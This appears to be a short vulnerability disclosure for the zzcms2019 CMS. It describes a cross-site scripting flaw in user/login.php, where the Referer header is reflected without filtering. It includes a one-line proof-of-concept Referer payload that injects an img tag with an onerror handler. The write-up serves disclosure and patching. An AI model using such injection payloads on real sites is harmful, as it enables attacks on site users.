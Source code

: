 
* version: zzcms2019
* source: http://www.zzcms.net/about/6.htm
* issue: xss

## Position

in `zzcms2019/user/login.php line 24`：

![zzcms2019_xss_1](https://github.com/iohex/ZZCMS/blob/master/zzcms2019_xss_1.png)

The `@$_SERVER['HTTP_REFERER']` can be controlled by the Referer header, and it doesn't be filtered in `zzcms2019/inc/stopsqlin.php`:

![zzcms2019_xss_2](https://github.com/iohex/ZZCMS/blob/master/zzcms2019_xss_2.png)



## PoC

`Referer: xss"/><img src="#" onerror="alert(1)"/>`

![zzcms2019_xss_3](https://github.com/iohex/ZZCMS/blob/master/zzcms2019_xss_3.png)
